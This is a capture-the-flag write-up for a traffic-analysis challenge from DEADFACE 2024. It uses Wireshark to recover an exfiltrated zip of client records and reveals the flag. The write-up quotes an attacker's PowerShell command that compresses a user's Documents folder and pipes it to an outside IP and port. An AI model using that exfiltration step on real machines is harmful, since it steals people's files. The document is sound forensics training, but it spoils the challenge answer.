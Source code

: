 ```yaml
---
title: "Deep Pockets"
draft: false
tags: ["writeup", "TRAFFIC ANALYSIS"]
series: "deadface2024"
date: 2024-10-06
---
```


## Challenge Description
>Garry Sartoris had a CSV file of VIP clients on his machine that DEADFACE exfiltrated. TGRI wants us to confirm William Harrington’s account number to determine if his information was compromised. Submit William Harrington’s account number as the flag.
>
>Submit the flag as flag{AAAA##############}.

## file
[phantom.zip](/deadface2024/phantom.zip)

## Solution
In `Wireshark` we can use the filter `data` and search for any `csv` string in packet bytes.

![Image of wireshark filters](/deadface2024/deepPockets-1.png)

By following the TCP Stream of the first result (tcp.stream eq 297) we see some logs of windows PowerShell commands that contains `vip-clients.csv`.

The csv file we want is compressed with some other files into a zip archive:

`PS C:\Users\garry> Compress-Archive -Path "C:\Users\garry\Documents" -DestinationPath "C:\Users\garry\collection.zip"`

The archive is then sent through an ip and tcp port:

`PS C:\Users\garry> 945f.exe 45.55.201.188 7523 < collection.zip`

We can now use more precise filters: 

```ip.dst == 45.55.201.188 and tcp.port == 7523```

and save the raw data from the first tcp stream (tcp.stream eq 311). 

![Image of wireshark tcp stream](/deadface2024/deepPockets-2.png)

Let's name it collection.zip. We can now decompress it and print its content.

```
unzip collection.zip 
Archive:  collection.zip
warning:  collection.zip appears to use backslashes as path separators
  inflating: Documents/Garry_Sartoris_Timesheet.docx  
  inflating: Documents/techno_global_research_industries.xlsx  
  inflating: Documents/TGRI_2024_Q4_Goals_Presentation.pptx  
  inflating: Documents/TGRI_Dress_Standards_Letter.docx  
  inflating: Documents/vip-clients.csv  
```

```
cat Documents/vip-clients.csv 
Customer Name, Account Number
Melissa Bolton, SJWX94378180672085
Aaron Parker, FJOY35738636143323
William Harrington, RRNQ85158591854615
Jennifer Smith, IYEC17545523444798
```

Flag: flag{RRNQ85158591854615}
